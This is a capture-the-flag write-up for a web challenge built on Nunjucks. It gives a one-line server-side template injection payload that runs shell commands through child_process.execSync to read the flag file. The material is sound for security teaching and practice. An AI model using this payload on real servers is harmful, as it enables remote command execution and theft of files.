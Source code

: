 ### Chal Desc:
Watching the sunset with nunjucks to make sure your server side is always protected. The flag is on /app/flag.

URL: http://cybersecweek.ua.pt:2003/

### Soln:  Classic SSTI attack 

![](https://user-images.githubusercontent.com/95117634/171788698-f2f4f6c3-e879-4d4b-8030-c7c711b9f62c.png)

If we apply different commands, we get an error page that tell us it’s nunjucks, so we have to use nunjucks SSTI.  

![](https://user-images.githubusercontent.com/95117634/171788741-8e292e8f-71df-495a-95b7-fd64d8001900.png)

{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /app/flag')")()}}  

![](https://user-images.githubusercontent.com/95117634/171788786-e939f182-dbba-49a8-bf52-3256f4c000e0.png)

